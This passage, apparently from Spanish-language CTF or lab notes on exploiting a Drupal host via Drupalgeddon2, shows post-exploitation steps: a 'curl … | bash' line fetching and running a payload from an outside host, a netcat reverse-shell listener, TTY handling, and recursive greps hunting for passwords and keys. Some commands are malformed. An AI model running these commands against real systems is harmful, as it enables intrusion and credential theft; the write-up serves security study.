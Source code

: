 1. En la drupalgeddon2 shell

    ```bash
    curl -s 10.10.14.20 | bash
    ```
    
ya esta...

### Tratamiento de la TTY {-}

```bash
script /dev/null -c bash
^Z
```

En este caso no nos va el tratamiento de la **TTY**. En este caso lo que hacemos es utilizar el 
```bash
 rlwrap nc -nlvp 443 
```


### Investigamos la maquina {-}

```bash
pwd
#Output
/var/www/html

ls -l
#Output
muchas cosas

grep -r -E -i "user|pass|key"
#Output
muchas cosas

grep -r -E -i "username|pass|key"
#Output
muchas cosas
```

Como hay muchas cosas y es dificil de analizar usamos el comando 
```bash
 find 
```
 y vamos quitando con el comando 
```bash
 grep -v 
```
 las cosas que no 
nos interresan poco a poco.

```bash
find \-type -f 2>/dev/null
find \-type -f 2>/dev/null | grep -v "themes"
find \-type -f 2>/dev/null | grep -v -E "themes|modules"
```
